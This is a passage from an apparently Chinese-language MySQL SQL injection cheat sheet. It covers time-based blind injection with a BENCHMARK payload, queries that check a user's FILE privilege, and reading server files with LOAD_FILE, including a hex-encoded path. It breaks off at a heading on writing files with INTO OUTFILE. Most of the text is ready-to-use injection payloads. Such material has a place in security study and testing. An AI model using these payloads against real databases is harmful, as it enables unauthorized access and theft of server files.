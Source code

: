 **timing**

```text
SLEEP()    MySQL 5
BENCHMARK()    MySQL 4/5



Example:
' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - '
```

**特权**

**文件特权** 以下查询可以帮助确定给定用户的FILE权限。

```text
SELECT file_priv FROM mysql.user WHERE user = 'username'; --。需要root权限 mysql4/5
```

![sql](http://hackerwing.com/2fca7d4d3e58d653f765172e75465ac5.png)

```text
SELECT grantee, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'file' AND grantee like '%username%'; --> 不需要特权 mysql5
```

![hacker](http://hackerwing.com/810ef0fb02cb64a2c3041a711be29ba3.png)

**读文件**

如果用户具有FILE权限，则可以读取文件。

```text
LOAD_FILE()

Examples:
SELECT LOAD_FILE('F:/wing.txt');
SELECT LOAD_FILE(0x463A2F77696E672E747874);
```

![wing](http://hackerwing.com/8f1e14d0943b84dd1968aa1ce82964db.png) ![memeda](http://hackerwing.com/fd67a46aaa2ce35db2a8f57c95c93858.png) tips:

* 文件必须位于服务器主机上。
* LOAD\_FILE（）的基本目录是@@datadir。
* 该文件必须是MySQL用户可读的。
* 文件大小必须小于max\_allowed\_packet。
* @@max\_allowed\_packet的默认大小是1047552字节。

  **写文件**

  如果用户具有FILE权限，则可以写入文件。

  \`\`\`

  INTO OUTFILE/DUMPFILE

Examples:
